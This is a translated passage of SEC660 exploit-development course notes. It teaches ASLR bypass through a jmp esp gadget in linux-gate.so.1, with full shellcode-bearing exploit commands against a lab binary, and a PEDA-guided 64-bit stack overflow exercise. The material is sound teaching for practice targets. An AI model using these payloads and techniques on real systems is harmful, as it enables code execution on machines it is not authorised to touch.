显然，在了解这个新朋友之前我们没法利用它。那么linux-gate.so.1到底是什么呢？在过去，系统尝试在用户态和内核态之间切换时，总是会发送0x80中断。从现代处理器的处理角度来看，这种访问保护和通信方式被认为速度太慢。因此，人们创造了一种新方法，能够以更快的速度提供相同的功能。这种新方法使用SYSENTER和SYSEXIT指令。根据英特尔的说法，SYSENTER指令是奔腾II处理器引入的快速系统调用机制的一部分。想了解这些指令的更多信息，我建议你访问Manu Garg发布的以下链接：http://manugarg.googlepages.com/systemcallinlinux2_6.html。就我们目前的目的而言，我们只需要知道linux-gate.so.1是一个虚拟动态链接共享对象（VDSO），在大多数Linux内核版本中都会被稳定映射到0xfffffe000地址。VDSO的核心设计思路之一是允许用户态访问内核资源，而无需发送中断。它通常只作为网关存在，可供系统上的所有进程使用。如果你使用过VMware等各类虚拟化产品，可能还记得一些问题：虚拟机监控程序想要使用已被这个VDSO占用的内存页，这时就需要将VDSO选项设置为0。


## 搜索linux-gate.so.1
- ldd工具显示该模块总是被加载到0xffffe000
- 使用GDB查看：
  - `gdb ./aslr_canary`
  - `break main`
  - `run`
  - `x/8b 0xffffe000`
- 搜索字节对0xffd4（call esp指令）或0xffe4（jmp esp指令）

如果还没启动的话，在GDB中启动aslr_canary程序。进入GDB后，输入**break main**，再输入**run**。你会在main()函数的地址处命中你设置的断点。此时，查看位于0xffffe000处的linux-gate.so.1的地址，输入**x/8b 0xffffe000**后按回车。参数`8b`表示每次逐字节地显示1行共8个字节，这能让我们更方便地查找目标操作码。反复按回车，搜索0xffd4（call esp）或0xffe4（jmp esp）。确实存在符合要求的字节！

## linux-gate.so.1的GDB运行结果
- 在GDB中使用`x/8b`命令...
``` (gdb) x/16b 0xffffe000
0xffffe000: 0x7f 0x45 0x4c 0x46 0x46 0x01 0x01 0x01
0xffffe008: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x00 ...
#After searching through manually
```
> 我们在地址0xffffe777处找到了0xffe4
``` (gdb) x/16b 0xffffe770
0xffffe770: 0x02 0x00 0x00 0x00 0x00 0xe4 0xe1 0xff 0xff
0xffffe778: 0xe4 0x01 0x00 0x00 0x00 0x38 0x00 0x00 0x00
(gdb) x/i 0xffffe777
0xffffe777: jmp *%esp
```
本页幻灯片展示了上一页中的命令的执行结果截图。如你所见，结果以1字节为单位，每行显示8个。这能让我们更方便地搜索0xff，再检查下一个字节是0xd4还是0xe4。如你所见，在地址0xffffe777处就是我们需要的操作码之一0xffe4。我们应当利用这一点。

## **另一种方法**
- 使用dd和xxd工具走捷径！
``` dd if=/proc/self/mem of=linux-gate.dso bs=4096 count=1 skip=1048574
```
``` $ dd if=/proc/self/mem of=/tmp/vdso.bin bs=4096 skip=1048574 count=1
1+0 records in
1+0 records out
4096 bytes (4.1 kB) copied, 2.9e-05 seconds, 141 MB/s
```
- 使用xxd查看linux-gate.dso并搜索"ff e4"
``` $ xxd -g1 /tmp/vdso.bin |grep "ff d4"
$ xxd -g1 /tmp/vdso.bin |grep "ff e4"
00000770: 02 00 00 00 e4 e1 ff ff e4 01 00 00 38 80 00 00 ......
```
在进入漏洞利用的下一部分之前，我们先看一种更简便的、在linux-gate.so.1中搜索操作码的方法。提供的链接是一份参考资料：http://manugarg.googlepages.com/systemcallinux2_6.html。你也可以在以下链接找到该技术的相关资料：https://web.archive.org/web/20160305150531/http://www.trilithium.com/johan/2005/08/linux-gate/（https://tinyurl.com/ybnxag7w）。上述技术指的是使用dd工具制作linux-gate.so.1对象的镜像文件。有了二进制镜像后，我们就可以使用xxd这类工具在二进制文件中搜索我们需要的字符串模式。要执行该技术，请输入以下命令：
``` dd if=/proc/self/mem of=linux-gate.dso bs=4096 skip=1048574 count=1
# bs是4K页面，skip参数让我们跳转到倒数第二页
# 2^32 / 4096 - 2 = 1048574
```
这会生成一个名为linux-gate.dso的镜像文件。接下来，使用xxd工具搜索我们需要的内容模式：
``` xxd -g1 linux-gate.dso |grep "ff d4"
xxd -g1 linux-gate.dso |grep "ff e4"
```
第二个命令应该会得到幻灯片中展示的结果。我们再次看到0xffffe777处存储着我们需要的十六进制模式。左侧显示的地址为00000770。我们需要记得把这个值加上基地址0xffffe000，得到地址0xffffe770，然后再计算到0xffffe777的偏移量。

## 使用我们的跳板
- 使用新的返回地址尝试
``` $ ./aslr_canary "AAAAAAA `echo -e '\x42\x43\x0a\xffAAA\x77\xe7\xff\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x29\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x35\xb0\xb8\xc4\x83\xe7\xeb\xfc\xe2\x4d\x7d\x38\xc4!'`"
Authentication Failed
( ___)
(oo)
/-------\/
/ | ||
* /---/\
"DDDDDDDDDDDDDDDDDD"
Success!!!
....."Have you mooed today?"...
```
现在我们得到了看起来符合要求的操作码，就可以把这个地址用作我们的返回指针。使用和之前相同的漏洞利用代码，把返回指针改为\x77\xe7\xff\xff。命令应当如下所示：
``` ./aslr_canary "AAAAAAAA `echo -e '\x42\x43\x0a\xffAA\x77\xe7\xff\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x29\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x35\xb0\xb8\xc4\x83\xe7\xf4\xe2\x4f\x5f\xbb\xe0\x5d\x67\xd6\xd0\xe9\x56\x39\x5f\xac\x1a\xc3\xd0\xc4\x5d\x9f\xda\xad\x5b\x39\x5b\x96\xdd\xc8\xb8\xc4\x35\x1c\xc8\xb0\x18\x8d\x7d\xb0\x15\xdd\xd7\xab\x35\xe7\xeb\x4d\x4d\x7d\x38\xc4'`"
"BBBBBBBBBBBBBBBB"
"DDDDDDDDDDDDDDDDDD"
```
如幻灯片所示，我们的漏洞利用尝试成功了！

## **总结该方法**
- 我们最后一种绕过ASLR的方法适用于Linux内核2.6.17-2.6.19
- 在内核2.6.20上，0xffffe777处的"jmp esp"十六进制模式已被移除
- 接下来怎么办？
- 0xffe4、0xffd4以及其他有用的模式仍然存在
- 搜索可执行文件或内存中的静态区域，比如代码段
- 或者……

我们最后一种绕过ASLR的方法适用于Linux内核2.6.17–2.6.19。有许多操作系统都在使用该版本的内核，但和往常一样，技术总是在不断发展。例如，在内核版本2.6.20上，linux-gate.so.1似乎仍然是静态的，尽管我们之前利用的那个十六进制模式已经被移除。在内核版本2.6.24上，linux-gate.so.1已经被随机化了。这是否意味着我们之前的方法就此失效了？当然不是！代码段通常会被映射到相同的地址，不参与ASLR随机化。这里可能存在我们感兴趣的操作码，这当然值得搜索一番。也可能存在其他保持一致的内存区域。作为研究人员，如果你的第一次尝试失败了，不能简单地感到气馁。这门课程应当能让你了解到多种控制程序的方法。许多研究人员会花费数周甚至数月的时间，试图找到一种创建可靠漏洞利用程序的方法。

| 操作码 | 指令 |
|--------|-------------|
| FF E0 | 跳转至EAX |
| FF D0 | 调用EAX |
| FF E1 | 跳转至ECX |
| FF D1 | 调用ECX |
| FF E2 | 跳转至EDX |
| FF D2 | 调用EDX |
| FF E3 | 跳转至EBX |
| FF D3 | 调用EBX |
| FF E4 | 跳转至ESP |
| FF D4 | 调用ESP |
| FF E5 | 跳转至EBP |
| FF D5 | 调用EBP |
| FF E6 | 跳转至ESI |
| FF D6 | 调用ESI |
| FF E7 | 跳转至EDI |
| FF D7 | 调用EDI |

### 其他值得关注的操作码
- **返回至ESP**
  - 我们刚刚就用过这个方法！
  - 跳转/调用esp指令——对应操作码0xffd4或0xffe4
- **返回至EAX**
  - 当通过EAX寄存器向调用函数返回指针时，该方法非常有用
  - 跳转/调用EAX指令——对应操作码0xffe0或0xffd0
- **返回至返回地址**
  - 不断沿栈向下返回，直到你掌控目标位置
  - 返回指令——对应操作码0xc3 ***该指令在内核2.6.20的linux-gate.so.1中存在***
- **返回至指针**
  - 在某些段错误发生时，寄存器会存储栈上我们可以控制的地址；例如，寄存器中可能出现0x41414141
  - 适用于EAX、EDX、EDI、ESI等寄存器中的返回至指针场景

其他一些可能为我们提供绕过ASLR机会的操作码包括返回至ESP、返回至EAX、返回至返回地址、返回至指针这几类。接下来我们逐一详细讨论它们。

#### 返回至ESP
你可能已经对返回至ESP这个方法很熟悉了。这就是我们刚刚在内核版本为2.6.17、开启了ASLR的系统上利用过的方法。其原理是：当函数执行完成、栈帧被销毁后，ESP寄存器会指向上一个返回指针位置之后的那个内存地址。因为ESP寄存器指向这个位置，所以我们应当把漏洞利用代码放在漏洞函数的返回指针位置之后，再把返回指针覆写为jmp esp或call esp指令的内存地址即可。如果操作成功，程序执行会跳转到ESP指向的地址，进而执行我们的shellcode。

#### 返回至EAX
当调用函数期望通过EAX寄存器返回一个指向攻击者可控制缓冲区的指针时，就可以使用返回至EAX这个方法。举个例子，如果某个函数内存在缓冲区溢出，并且该函数会返回指向漏洞缓冲区的指针，我们就可以找到一个能执行jmp eax或call eax的操作码，把这个地址覆写到漏洞函数的返回指针上。

#### 返回至返回地址
返回至返回地址这个方法和前面几种略有不同。它的原理是把返回指针设置为ret指令的地址。这种攻击的思路是，我们可以按需执行任意次ret指令，每次沿栈向下移动4个字节。如果栈上的某个位置存在攻击者可以控制的指针，或者攻击者可以控制该指针指向地址存储的数据，就能通过这个方法拿到程序控制权。

#### 返回至指针
这是一个比较有意思的方法。假设你在某个漏洞函数中发现了缓冲区溢出。当你触发段错误时，经常会看到EIP试图跳转到地址0x41414141。这个地址是因为我们使用了字符"A"导致的。当我们触发这个错误时，可以在GDB中输入**info reg**命令，查看处理器寄存器的内容。通常情况下，多个寄存器中会
 holding the address or value 0x41414141. For example, say the EBX register holds the value 0x41414141. This may indicate this value has been taken from somewhere off the stack where we crammed our A's into the buffer and overwrote the return pointer. If we can find an instruction such as "call [ebx]" or "FF 13" in hex and can determine where the 0x41414141 address has been pulled from the stack to populate EBX, we should take control of the program by overwriting this location with the address of our desired instruction. Remember these are just some examples of what can be done. Think outside the box!
## 64位栈溢出 - 接下来我们将对64位栈溢出做简要介绍，随后马上进行实操练习
- 请注意，x64处理器上有16个通用寄存器，位宽为64位，而非32位
- 这大幅提升了ASLR的熵值
- 32位栈的熵值

接下来我们来进行64位栈溢出利用的实操练习。稍后我们会使用你的Kali Linux虚拟机完成该练习。如果你之前有印象的话，x64架构有16个通用寄存器，而x86 32位架构只有8个。寄存器位宽也是64位而非32位。这为进程内的虚拟寻址提供了大得多的范围。之前我们看到，32位进程栈上关联ASLR的熵值为2^20次幂。在这张幻灯片里可以看到，熵值为2^32次幂。这意味着在合理时间内对应用进行暴力破解变得不太现实。因此必须寻找其他绕过ASLR的方法，比如内存中有用的静态指令，或是信息泄露类漏洞。
| GDB - PEDA | SEC660 | 高级渗透测试、漏洞利用编写与道德黑客 | 167 |
| --- | --- | --- | --- |
- 适用于GDB的Python漏洞开发辅助工具（PEDA）
- 由Long Le Dinh编写，维护地址：https://github.com/longld/peda
- 大幅修改了GDB界面，支持彩色编码、寄存器/栈转储及其他详情的自动输出
- 附带大量漏洞利用相关命令，和corelanc0d3r开发的Mona工具类似
## GDB - PEDA
这款适用于GDB的Python漏洞开发辅助工具（PEDA）由Long Le Dinh编写，可在https://github.com/longld/peda获取。它已经预装在你拿到的Kali Linux虚拟机中。该工具在调试时能提供极大的帮助，尤其是在漏洞利用编写方面。它对GDB的常规输出进行了修改，支持彩色编码结果，可自动显示寄存器、栈和反汇编内容。假设你在某个地址设置了断点，当断点被触发时，上述信息会自动显示。它还包含大量可运行的命令，功能和corelanc0d3r开发的Mona工具类似。该工具发布时，Long Le曾在2012年拉斯维加斯的Black Hat大会上做过相关演示，该演示文稿可在http://ropshell.com/peda/Linux_Interactive_Exploit_Development_with_GDB_and_PEDA_Slides.pdf找到。
### PEDA示例（1） - 程序命中断点时，会自动显示寄存器信息
```gdb-pedas break main
Breakpoint 1 at 0x400627
gdb-pedas run
Starting program: /root/x64_vuln
[ ---registers--- ]
RAX: 0x400623 (<main>: push rbp)
RBX: 0x0
RCX: 0x0
RDX: 0x7fffffffe378 --> 0x7fffffffe641 ("LS_COLORS=rs=0:di=01;34;ln=01;36;mh=00:pi=40;33;so=01;35:mi=01;01:su=37;41;sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=...
RSI: 0x7fffffffe368 --> 0x7fffffffe632 ("/root/x64_vuln")
RDI: 0x1
RBP: 0x7fffffffe280 --> 0x400640 (<__libc_csu_init>:
RSP: 0x7fffffffe20e --> 0x400640 (<__libc_csu_init>: push r15)
RIP: 0x400627 (<main+4>: mov eax,0x0)
R8 : 0x4329 (<_dl_fini>: repz ret)
R9 : 0x7ffff7de87d0 (<__dl_fini>: push rbp)
R10: 0x844
R11: 0x7ffff7a58610 (<__libc_start_main>: push r14)
R12: 0x4004d0 (<__start>: xor ebp,ebp)
R13: 0x7fffffffe360 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```
这张幻灯片展示了启动GDB时PEDA的简易示例。你可以看到，我们在**main**函数处设置了断点并**run**了程序。当断点被触发时，首先输出的是处理器寄存器的状态。
### PEDA示例（2） - 断点周边反汇编代码与栈信息也会自动显示
```[-- 0x400622 <main+8>: ret
0x400623 <main>: push rbp
0x400624 <main+1>: mov rbp,rsp
0x400627 <main+4>: mov eax,0x0
0x40062c <main+9>: call 0x4005c6 <overflow>
0x400631 <main+14>: mov eax,0x0
0x400636 <main+19>: pop rbp
0x400637 <main+20>: ret
--stack--
00007fffffffe280 --> 0x400640 (<__libc_csu_init>: push r15)
0008 --> 0x7ffff7a58700 (<__libc_start_main+240>: mov edi,eax)
0016 --> 0x7fffffffe280 --> 0x0
0024 --> 0x7fffffffe368 --> 0x7fffffff2632 ("/root/x64_vuln")
0032 --> 0x7fffffffe2a0 --> 0x1f7ffccca0
0040 --> 0x7fffffffe2a8 --> 0x400623 (<main>:
0048 --> 0x7fffffffe2b0 --> 0x0
0056 --> 0x7fffffffe2b8 --> 0x3d135c0c506648af
--Legend: code, data, rodata, value--
Breakpoint 1, 0x0000000000400627 in main ()
gdb-peda$]
```
这张幻灯片展示了断点触发时PEDA自动输出的后半部分内容，其中包含指令指针周边的反汇编代码，以及栈数据。
### PEDA示例（3） - 执行**help peda**命令会显示大量选项列表
```gdb-peda$ help peda
PEDA - Python Exploit Development Assistance for GDB
For latest update, check peda project page: https://github.com/longld/peda/
List of "peda" subcommands, type the subcommand to invoke it:
aslr -- Show/set ASLR setting of GDB
asmsearch -- Search for ASM instructions in memory
assemble -- On the fly assemble and execute instructions using NASM
breakrva -- Set breakpoint by Relative Virtual Address (RVA)
checksec -- Check for various security options of binary
cmpmem -- Compare content of a memory region within a file
context -- Display various information of current execution context
context_code -- Display nearby disassembly at $PC of current execution context
context_register -- Display register information of current execution context
context_stack -- Display stack of current execution context
```
示例：**xrefs** <函数名>
```gdb-peda$ xrefs overflow
All references to 'overflow':
0x40062c <main+9>: call 0x4005c6 <overflow>
gdb-peda$
```
通过运行**help peda**命令，你可以查看所有和PEDA相关的命令列表。幻灯片上方的图片中只展示了其中一小部分，大部分命令都很直观。接下来我们看几个实用的命令。**xrefs**命令需要传入函数名作为参数，它会列出对该函数的所有调用。在幻灯片下方的示例中，我们执行了**xrefs overflow**命令（"overflow"是函数名），可以看到该函数只有一个交叉引用，来自**main**函数。
### PEDA示例（4） - 更多示例
- **pattern_create** – 该命令和之前Metasploit中介绍过的类似
- **jmpcall** – 用于搜索**jmp**和**call**指令
```gdb-peda$ pattern_create 300
'AAA%AA...A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%'
gdb-peda$ jmpcall 0x400525
0x400525: jmp rax
0x400573: jmp rax
0x4005be: call rax
0x40061e: jmp rsp
0x400743: call rsp
0x600525: jmp rax
0x600573: jmp rax
0x6005be: call rax
0x60061e: jmp rsp
0x600743: call rsp
gdb-peda$
```
**pattern_create**命令和我们之前在Metasploit中看到的命令非常相似，它需要传入字节数作为参数，会输出一个模式字符串，其中每4个字节都是唯一的。其原理和之前一致：只要模式中出现在寄存器或其他关注位置的部分，就可以用来推算缓冲区大小。幻灯片示例中执行的第二个命令是**jmpcall**，该命令会输出可执行内存中所有的**jmp**或**call**指令。


## 练习：x64_vuln (1)
- 目标：你Kali Linux虚拟机上的x64_vuln漏洞证明（PoC）程序
  - 一个Linux ELF二进制文件
  - 该PoC程序存在栈溢出漏洞
  - ASLR（地址空间布局随机化）已开启
- 目标：
  - 触发程序内的缓冲区溢出
  - 确定缓冲区大小
  - 绕过ASLR
  - 验证是否控制了RIP寄存器
  - 获得代码执行能力
> 你的讲师会先介绍本次练习，在交由你操作前会演示所有关键点。本次练习中，你将在Kali Linux虚拟机上利用一个64位版本的PoC程序。ASLR处于开启状态，但你这个版本的GDB在调试器内部会自动禁用ASLR。如果你没有注意到这一点，这可能会误导你，不过我们稍后会对此进行详细讲解。该程序存在基础栈溢出漏洞。你的目标是定位溢出点、确定缓冲区大小、绕过ASLR、验证是否控制了指令指针，并获得代码执行能力。本次练习你会用到PEDA插件，该插件已在Kali的GDB中为你预装完成。本次练习预计耗时约30分钟。
## 练习：x64_vuln (2)
- 在你的Kali Linux虚拟机中，进入**/root**主目录
- 运行命令**./x64_vuln**
- 程序会提示你输入字符串并返回对应长度
- 运行**file**命令后，我们可以看到该文件是64位可执行文件
```shell
root@kali:~# ./x64_vuln
Enter a string of characters to get the length!
AAAAAAA
The length of your input is: 8
root@kali:~# file x64_vuln
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8ccb875a0c2b02ab61e266c449b431bfccad5041, not stripped
```
可以看到，程序会提示你输入字符字符串并返回其长度。随后我们对该程序运行file工具，确认其为64位可执行文件。
SEC660 | 高级渗透测试、漏洞利用开发与道德黑客
## 练习：x64_vuln (3)
- 接下来，我们尝试发送一些长字符串，观察程序是否会崩溃
```shell
root@kali:~# python -c 'print "A" * 60' | ./x64_vuln
Enter a string of characters to get the length!
The length of your input is: 60
root@kali:~# python -c 'print "A" * 600' | ./x64_vuln
Enter a string of characters to get the length!
The length of your input is: 93
Segmentation fault
```

果不其然，当我们发送大量字符A时，程序发生了崩溃。
## 练习：x64_vuln (4)
- 接下来看看程序在GDB内部的运行状态
- 注意：幻灯片上展示的大部分输出为了*简洁*已被截断
- 完整输出在配套笔记中展示
```shell
root@kali:~# gdb ./x64_vuln
gdb-peda$ run < <(python -c 'print "A" * 600')
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffff278('A' <repeats 196 times>, "\377\177")
RIP: 0x400619 (<overflow+83>: ret)
Stopped reason: SIGSEGV
0x0000000000400619 in overflow ()
```
接下来，尝试在GDB内部输入600个字符A。首先，在调试器中启动程序，执行以下命令：
```shell
gdb ./x64_vuln
```
接下来，我们来构造输入：
```shell
gdb-peda$ run < <(python -c 'print "A" * 600')
Starting program: /root/x64_vuln < <(python -c 'print "A" * 600')
Enter a string of characters to get the length!
The length of your input is: 93
Program received signal SIGSEGV, Segmentation fault.
[-------------------------------------registers-------------------------------------]
RAX: 0x0    RBX: 0x0    RCX: 0x7fffffe0    RDX: 0x7ffff7dd5780 --> 0x0
RSI: 0x1    RDI: 0x0    RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffff278 ('A' <repeats 196 times>, "\\377\\177")
RIP: 0x400619 (<overflow+83>: ret)
R8 : 0x0    R9 : 0x20 (' ')    R10: 0x0    R11: 0x246
R12: 0x4004d0 (<_start>: xor ebp,ebp)
R13: 0x7fffffffe360 --> 0x1    R14: 0x0    R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
```
[---------------------------code-----------------------------]
```
0x40060e <overflow+72>: call 0x400490 <printf@plt>
0x400613 <overflow+77>: mov eax,0x0
0x400618 <overflow+82>: leave
0x400619 <overflow+83>: ret
=> 0x40061a <overflow+83>: push rbp
0x40061a <asM>:
0x40061b <asM+1>:
0x40061e <asM+4>: jmp rsp
0x400620 <asM+6>: nop
```
[---------------------------stack-----------------------------]
```
0000| 0x7fffffff278 ('A' <repeats 196 times>, "\\377\\177")
0008| 0x7fffffff280 ('A' <repeats 188 times>, "\\377\\177")
0016| 0x7fffffff288 ('A' <repeats 180 times>, "\\377\\177")
0024| 0x7fffffff290 ('A' <repeats 172 times>, "\\377\\177")
0032| 0x7fffffff298 ('A' <repeats 164 times>, "\\377\\177")
0040| 0x7fffffffe2a0 ('A' <repeats 156 times>, "\\377\\177")
0048| 0x7fffffffe2a8 ('A' <repeats 148 times>, "\\377\\177")
0056| 0x7fffffffe2b0 ('A' <repeats 140 times>, "\\377\\177")
```
Legend: code, data, rodata, value
停止原因：段错误（SIGSEGV） 0x0000000000400619 in overflow ()
如你所见，我们如预期般收到了段错误。请注意，在PEDA输出的“code”部分中，**RIP**寄存器指向**ret**指令，但并未实际向前跳转。这是新版本GDB的正常行为。如果我们提供一个有效的可执行地址，程序会继续执行。
## 练习：x64_vuln (5)
- 如前所述，新版本的GDB会自动禁用ASLR
- 我们可以通过以下命令验证该配置：
```shell
gdb-peda$ show disable-randomization
Disabling randomization of debuggee's virtual address space is on.
```
- 如你所见，调试会话期间ASLR处于禁用状态
- 可以通过以下命令关闭该设置：**set disable-randomization off**
- 你可以根据需求自由调整该配置
在新版本的GDB中，ASLR默认处于禁用状态。这可能会造成混淆。如果你希望调整该设置，让调试会话内部的状态与外部环境保持一致，请在GDB内部执行以下命令：
```shell
set disable-randomization off
```
## 练习：x64_vuln (6)
- 接下来，我们使用PEDA生成一个模式串作为输入，以便确定到达返回指针所需的字节数
```shell
gdb-peda$ pattern_create 300 'AAA%AAaAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAABAA1AAGAAcAA2AAHAAAdAA3AAIAeAA4AAJAAFAA5AAK
AAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAAlAAQAAmAARAAoAASAApAAT
AAqAAUAArAAVAAtAAWAuAAXAAvAAYAAwAAZAAxAAyAAzA%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%'
```
```shell
gdb-peda$ run < <(python -c 'print "AAA%AAaAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAABAA1AAGAAcAA2AAHAAAdAA3AAIAeAA4AAJAAFAA5AAK
AAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAAlAAQAAmAARAAoAASAApAAT
AAqAAUAArAAVAAtAAWAuAAXAAvAAYAAwAAZAAxAAyAAzA%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%"')
```
```shell
Starting program: /root/x64_vuln < <(python -c 'print "AAA%AAaAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAABAA1AAGAAcAA2AAHAAAdAA3AAIAeAA4AAJAAFAA5AAK
AAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAAlAAQAAmAARAAoAASAApAAT
AAqAAUAArAAVAAtAAWAuAAXAAvAAYAAwAAZAAxAAyAAzA%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%"')
```
```shell
gdb-peda$ x/gx $rsp
0x7fffffffe278: 0x6941414d41413741
```
- 程序崩溃后，RSP寄存器指向模式串的一部分，相关内容以十六进制形式显示如上。


请输入一串字符以获取其长度！你输入的内容长度为：93
程序收到SIGSEGV信号，段错误。
``` [----------------------------registers-----------------------------------------]
RAX: 0x0 RBX: 0x0 RCX: 0x7fffffe0 RDX: 0xffff7dd5780 --> 0x0 RSI: 0x1 RDI: 0x0 RBP: 0x416841414c414136 ('6AALAAhA') RSP: 0x7fffffffe278 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAAlAAQAAmAARAAoAASApAATAAqAAUAArAAVA
AtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177") RIP: 0x400619 (<overflow+83>: ret)
R8 : 0x0 R9 : 0x20 (' ') R10: 0x0 R11: 0x246 R12: 0x4004d0 (<_start>: xor ebp,ebp)
R13: 0x7fffffffe360 --> 0x1 R14: 0x0 R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
```
``` [----------------------------code---------------------------------------------]
Dump of assembler code for function overflow:
0x40060e <overflow+72>: call 0x400490 <printf@plt>
0x400613 <overflow+77>: mov eax,0x0
0x400618 <overflow+82>: leave
=> 0x400619 <overflow+83>: ret
Dump of assembler code for function asm:
0x40061a <asm>: push rbp
0x40061b <asm+1>: mov rbp,rsp
0x40061e <asm+4>: jmp rsp
0x400620 <asm+6>: nop
End of assembler dump.
```
``` [--------------------------stack----------------------------------------------]
0000| 0x7fffffffe278 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAAlAAQAAmAARAAoAASApAATAAqAAUAArAAVA
AtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177")
0008| 0x7fffffffe280 ("AA8AANAAjAA9AOAAkAAPAAIAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtaAWAAu
AAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177")
0016| 0x7fffffffe288 ("jAA9AOOAAkAAPAAIAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtaAWAAuAAXAAvAA
YAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177")
0024| 0x7fffffffe290 ("AkAAPAAIAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtaAWAAuAAXAAvAAYAAwAAZ
AAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177")
0032| 0x7fffffffe298 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtaAWAAuAAXAAvAAYAAwAAZAAxAAyAA
zA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177")
0040| 0x7fffffffe2a0 ("RAAoAASAApAATAAqAAUAArAAVAAtaAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177")
0048| 0x7fffffffe2a8 ("ApAATAAqAAUAArAAVAAtaAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177")
0056| 0x7fffffffe2b0 ("AAUAArAAVAAtaAWAAuAAXAAvAAYAAwAAZAAzA%%A%sA%BA%$A%nA%CA%-
A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177")
[-----------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400619 in overflow ()
```
© 2019 斯蒂芬·西姆斯  
授权给：菲利普·德席尔瓦 <phildesilva2020@outlook.com>  
2020年4月24日

## 练习：x64_vuln (7)
查看从**RSP**开始的模式，读取前8个字节。请记住，在程序崩溃时，当**RIP**即将执行**ret**指令跳转到**RSP**指向的64位地址时，这个位置就是返回指针的存储位置。
``` gdb-peda$ x/s $rsp
0x7fffffffe278:"A7AAMAAiAA8AANAAjAA9AOAAkAAPAAAlAAQAAmARAAoAASAApAATAAqAUAAArAAVAAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
#truncated... ```
``` gdb-peda$ pattern_offset A7AAMAAi
A7AAMAAi found at offset: 104
```
- 104个字节即可到达返回指针的位置！

## 练习：x64_vuln (7)
在上一步中，我们使用了**x/gx $rsp**命令以十六进制格式输出一个四字（quadword）。该命令中的**g**代表“巨长（giant，指8字节）”。我们需要以字符串形式获取该值，以便在PEDA中使用**pattern_offset**命令。请执行下面加粗的命令：
``` gdb-peda$ x/s $rsp
